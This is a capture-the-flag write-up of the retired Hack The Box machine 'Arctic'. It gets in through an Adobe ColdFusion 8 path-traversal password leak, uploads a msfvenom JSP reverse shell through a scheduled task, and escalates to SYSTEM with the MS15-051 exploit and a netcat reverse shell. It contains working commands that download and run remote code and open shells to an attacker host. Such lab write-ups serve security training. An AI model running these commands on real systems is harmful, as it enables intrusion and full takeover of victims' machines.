hackthebox Arctic
Released: 22nd March 2017 / Pwned: August 30th 2019 - [+] Solved whilst Retired

Arctic would be straightforward execept for that the fact that the web server is configured to delay your web request for 30 seconds before responding to you. Adobe ColdFusion, a web service you find running on port 8500, uses HMAC to authenticate user's passwords when logging in. The salt for this HMAC hash is configured to change every 30 seconds, which invalidates your authenticated web request. There's that, and having to wait 30 seconds every time you want to load a page is just annoying. You gain access to the Adobe ColdFusion admin panel, get a shell on the system by setting a Scheduled Task and elevate to SYSTEM by exploiting the MS15-051 vulnerability.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.11
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/arctic# mkdir nmap
root@gotham:~/ctf/arctic# nmap -sC -sV -O -oN nmap/intiail.txt 10.10.10.11
...
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
8500/tcp open fmtp?
49154/tcp open msrpc Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
Ports
• 135/rpc - Nothing to be gained here. Can run Impacket's rpcdump.py against the service if you like, but nothing of use
• 8500/fmtp - What is this??
• 49154/rpc - More RPC. Nothing to be gained here either.
2) 8500/?
What is port 8500/fmtp?
A google of port 8500 reveals a speedguide link - https://www.speedguide.net/port.php?port=8500
speedguide says that port 8500 is used by Adobe ColdFusion.

3) 8500/Adobe ColdFusion
Visit http://10.10.10.11:8500 (and wait 30 seconds) and you'll be presented with a directory listing,

Browse to CFIDE/ > administrator/ and you'll be at an Adobe ColdFusion 8 login page.

Adobe ColdFusion 8 is vulnerable to local file inclusion:
https://nets.ec/Coldfusion_hacking#Remote_File_Disclosure_of_Password_Hashes
Visit:
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en
and a SHA1 hash of the ColdFusion admin password will be printed to the page.

You can crack the hash using a site like hashkiller.co.uk.
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 = happyday
Visit http://10.10.10.11:8500/CFIDE/administrator/index.cfm and log in with admin / happyday.
(the login will fail if you try log in at http://10.10.10.11:8500/CFIDE/administrator/enter.cfm)
You'll be at the Adobe ColdFusion administrator panel.

Gain Access
4) Adobe ColdFusion Shell
From the Adobe ColdFusion administrator panel, you can get a system shell by Scheduling a New Task and having it download a shell from your attacking system.
4a) Create .jsp shell and serve it
First, generate a .jsp shell on your attacking machine using msfvenom.
(with ColdFusion, you can use either a .cfm shell or a .jsp shell)
root@gotham:~/ctf/arctic# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=9001 -f raw -o shell.jsp
Payload size: 1496 bytes
Saved as: shell.jsp
And serve it to Adobe ColdFusion using python -m SimpleHTTPServer
root@gotham:~/ctf/arctic# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
4b) Find shell upload location
Next we need to find where the shell will be uploaded to.
Back on the ColdFusion panel, browse to Server Settings > Mappings.

You'll see the /CFIDE Logical Path, which points to the C:\ColdFusion8\wwwroot\CFIDE directory path.
This directory is where our shell will be uploaded to.

4c) Create scheduled task to download shell
Now we need to create scheduled task to download the shell to the system.
You can set a Scheduled Task that will download a file from a remote server and save it to a directory on the system.
i.e. You set a task that will download a reverse shell from your attacking machine and save it to C:\ColdFusion8\wwwroot\CFIDE on the target system.
Go to Debugging & Logging > Scheduled Tasks.

Click Schedule New Task

• Enter any Task Name you want.
• In URL - input the URL of the shell being served by your attacking system.
• Enter the admin username and password in User Name and Password
• Tick Publish's Save output to a file option.
• And in File - input the CFIDE path from Mappings - C:\ColdFusion8\wwwroot\CFIDE\<shell>
Click Submit

Run the scheduled task by clicking the far left button.

You should see a message saying that the task was completed successfully.

As well as a hit on your python server, which means that the shell has been downloaded to the target.
...
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.11 - - [30/Aug/2019 13:29:26] "GET /shell.jsp HTTP/1.1" 200 -
4d) Run reverse shell
Activate your shell by visiting http://10.10.10.11/CFIDE/shell.jsp
You should get a connection on your listener and a shell!
root@gotham:~/ctf/arctic# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49775
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\ColdFusion8\runtime\bin>
Go grab user.txt.
C:\ColdFusion8\runtime\bin>dir C:\Users
dir C:\Users
Volume in drive C has no label.
Volume Serial Number is F88F-4EA5
Directory of C:\Users
22/03/2017 10:00 �� <DIR> .
22/03/2017 10:00 �� <DIR> ..
22/03/2017 09:10 �� <DIR> Administrator
14/07/2009 07:57 �� <DIR> Public
22/03/2017 10:00 �� <DIR> tolis
0 File(s) 0 bytes
5 Dir(s) 33.193.164.800 bytes free
C:\ColdFusion8\runtime\bin>type C:\Users\tolis\Desktop\user.txt
type C:\Users\tolis\Desktop\user.txt
02650d...
Priv-Esc
5) Find Priv-Esc Route
Check what user you are with whoami.
We're tolis.
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
Run systeminfo to find the OS version, system architecture and Hotfixes installed
C:\ColdFusion8\runtime\bin>systeminfo
systeminfo
Host Name: ARCTIC
OS Name: Microsoft Windows Server 2008 R2 Standard
...
System Type: x64-based PC
...
Hotfix(s): N/A
...
ARCTIC is a 64-bit Windows Server 2008 R2 machine with no Hotfixes (updates) installed.
Windows Server 2008 R2 is from 2009. It's pretty old.
There's most likely a priv-esc exploit available for it.
6) Sherlock.ps1
Sherlock is a powershell script written by RastaMouse that will check the target system for local privilege escalation exploits.
Download Sherlock to your attacking machine and serve it with python -m SimpleHTTPServer
root@gotham:~/ctf/arctic# wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
...
root@gotham:~/ctf/arctic# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
And run Sherlock remotely using powershell's DownloadString functionality
C:\Users\tolis\AppData\Local\Temp>powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.8:8000/Sherlock.ps1'); Find-AllVulns"
...
Title : Task Scheduler .XML
MSBulletin : MS10-092
CVEID : 2010-3338, 2010-3888
Link : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable
...
Title : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID : 2015-1701, 2015-2433
Link : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
...
Title : Secondary Logon Handle
MSBulletin : MS16-032
CVEID : 2016-0099
Link : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
<--- if the shell hangs after finishing, press enter --->
Sherlock reports that there are 3 potential priv-esc exploits.
From past Windows Server 2008 R2 boxes, I know that MS15-051 works reliably, so I went with that.
7) MS15-051
There's a nice github repository of pre-compiled MS15-051 exploits available here - https://github.com/jivoi/pentest/blob/master/exploit_win/ms15-051
(thanks jivoi)
7a) Serve ms15-051.exe to target
Download a pre-compiled 64-bit ms15-051.exe exploit from the repo above to your attacking machine and serve it using python -m SimpleHTTPServer
root@gotham:~/ctf/arctic# wget https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe
...
root@gotham:~/ctf/arctic# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Back on ARCTIC, move to tolis's temp directory so that we can download our exploit to the target.
Download the exploit from your attacking machine using powershell's DownloadFile functionality.
C:\ColdFusion8\runtime\bin>cd %temp%
C:\Users\tolis\AppData\Local\Temp>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/ms15-051.exe','C:\Users\tolis\AppData\Local\Temp\ms15-051.exe')"
<--- if the shell hangs, press enter after you see a download hit on your python server --->
You should see a hit on your python server
...
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.11 - - [30/Aug/2019 14:20:37] "GET /ms15-051.exe HTTP/1.1" 200 -
And the exploit will have been downloaded to the target.
C:\Users\tolis\AppData\Local\Temp>dir
dir
Volume in drive C has no label.
Volume Serial Number is F88F-4EA5
Directory of C:\Users\tolis\AppData\Local\Temp
01/09/2019 12:18 �� <DIR> .
01/09/2019 12:18 �� <DIR> ..
31/08/2019 08:57 �� <DIR> hsperfdata_tolis
22/03/2017 10:00 �� <DIR> Low
01/09/2019 12:18 �� 55.296 ms15-051.exe
1 File(s) 55.296 bytes
4 Dir(s) 33.189.732.352 bytes free
7b) Test ms15-051.exe
This ms15-051.exe exploit takes, as a parameter, a command to run as SYSTEM.
Test the exploit works by running the exploit with whoami.
We should get back nt authority\system.
C:\Users\tolis\AppData\Local\Temp>.\ms15-051.exe whoami
.\ms15-051.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 3308 created.
==============================
nt authority\system
Nice! We can run commands as SYSTEM.
8) SYSTEM shell with ms15-051.exe
You can get shell as SYSTEM using the ms15-051.exe exploit by having it run netcat and connect back to a listener on your attacking machine.
Windows doesn't have a built-in netcat tool, so we'll have to serve it one.
8a) Serve nc64.exe to target
Download a 64-bit netcat binary to your attacking system and serve it using python -m SimpleHTTPServer.
There's a nice repo of windows priv-esc tools here - https://github.com/phackt/pentest/tree/master/privesc/windows
root@gotham:~/ctf/arctic# wget https://github.com/phackt/pentest/raw/master/privesc/windows/nc64.exe
...
root@gotham:~/ctf/arctic# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Using powerhsell's DownloadFile functionality (like before), download the netcat binary to the target.
C:\Users\tolis\AppData\Local\Temp>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/nc64.exe','.\nc64.exe')"
<--- if the shell hangs, press enter after you see a download hit on your python server --->
A netcat binary will now be on the target.
8b) Receive SYSTEM shell
Start a listener on your attacking machine to receive the reverse shell.
root@gotham:~/ctf/arctic# nc -lvnp 9002
listening on [any] 9002 ...
Run .\ms15-051.exe "nc64.exe -e cmd.exe <attacker port> <attacker port>", which will send a cmd shell back to your listener.
C:\Users\tolis\AppData\Local\Temp>.\ms15-051.exe "nc64.exe -e cmd.exe 10.10.14.8 9002"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1376 created.
==============================
< --- SHELL HANGS --- >
You should see a connection from ARCTIC and a SYSTEM shell!
...
listening on [any] 9002 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 50011
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Users\tolis\AppData\Local\Temp>whoami
whoami
nt authority\system
Go grab root.txt.
C:\Users\tolis\AppData\Local\Temp>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
ce65ce...